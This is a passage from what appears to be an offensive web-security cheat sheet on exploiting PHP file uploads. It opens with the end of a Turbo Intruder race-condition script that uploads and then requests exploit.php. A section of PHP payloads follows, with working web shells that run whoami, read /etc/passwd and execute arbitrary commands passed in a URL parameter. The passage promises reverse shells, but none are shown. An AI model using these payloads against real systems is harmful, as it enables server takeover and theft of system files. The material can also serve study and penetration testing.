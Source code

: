 ```python

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br /><br />

## PHP Payloads

After finding vulnerability, we can create a payload for exploiting the website.  
Here is the example payloads of **web shell** and **reverse shell** to compromise target system.

<br />

### Web Shell

For example, the file name is "exploit.php".

```php
// Simply showing the result of 'whoami'.
<?php echo system('whoami'); ?>

// This shows the content of "/etc/passwd".
<?php echo file_get_contents('/etc/passwd');  ?>

// We can execute arbitrary commands by passing the url parameter e.g. "/exploit.php?cmd=whoami"
<?php echo system($_GET['cmd']); ?>
```
